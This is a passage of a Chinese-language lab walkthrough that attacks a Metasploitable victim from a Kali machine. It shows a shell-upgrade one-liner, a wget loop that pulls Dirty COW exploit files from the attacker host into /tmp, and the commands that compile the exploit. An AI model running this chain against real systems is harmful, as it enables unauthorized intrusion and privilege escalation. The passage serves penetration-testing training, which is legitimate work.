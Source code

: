 ![](img/5ca5777fb2caab6ce6cb68e7c9b6cfb8.png)

12.在 192.168.62.162 上执行(受害者机器，Metasploitable 第二个反向外壳)。

将第二个 shell 升级为交互式 Bash shell。

```
python -c "import pty; pty.spawn('/bin/bash')"
```

![](img/1c2c5860e11c1b54cd76ad5caf197861.png)

13.在 192.168.62.162 上执行(受害机器，Metasploitable 第一个反向外壳)。

从 Kali 下载漏洞利用源代码

```
file=dirty
LHOST=192.168.62.161
LPORT=80
files="${file}.c ${file}_x64"
for file in $(echo $files); do wget http://${LHOST}:${LPORT}/${file} -O /tmp/${file}; chmod 755 /tmp/${file}; done
```

![](img/1b5e4c0662533621a5e3ac2d6791043c.png)

14.在 192.168.62.162 上执行(受害机器，Metasploitable 第一个反向外壳)。

编译漏洞

```
cd /tmp
gcc -pthread dirty.c -o dirty -lcrypt
chmod 755 dirty
```

![](img/ab4c287963de425e24e6ec13350578c2.png)
